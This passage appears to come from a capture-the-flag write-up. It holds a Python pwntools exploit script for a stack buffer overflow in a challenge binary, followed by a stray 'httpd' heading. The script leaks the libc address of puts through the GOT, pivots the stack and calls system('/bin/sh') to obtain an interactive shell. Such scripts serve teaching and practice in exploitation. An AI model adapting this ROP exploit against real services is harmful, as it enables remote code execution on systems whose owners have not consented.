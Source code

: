 ```python
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    read = 0x4006C4
    payload = flat(
        b"A" * 0x30,
        elf.bss() + 0x500,
        read,
        rop.rdi.address,
        elf.got["puts"],
        elf.plt["puts"],
        elf.sym["vuln"],
        b"B" * 0x10,
        0x6014D8,
        rop.leave.address,
    )
    # raw_input("DEBUG")
    target.send(payload)
    target.recvuntil(b"overflow?\x0a")
    puts = u64(target.recvline().strip().ljust(0x8, b"\x00"))
    libc.address = puts - libc.sym["puts"]
    target.success(hex(libc.address))

    payload = flat(
        b"C" * 0x30,
        elf.bss() + 0xF00,
        read,
        rop.rdi.address,
        next(libc.search(b"/bin/sh\x00")),
        libc.sym["system"],
        b"D" * 0x18,
        0x601ED8,
        rop.leave.address,
    )
    target.send(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

# httpd
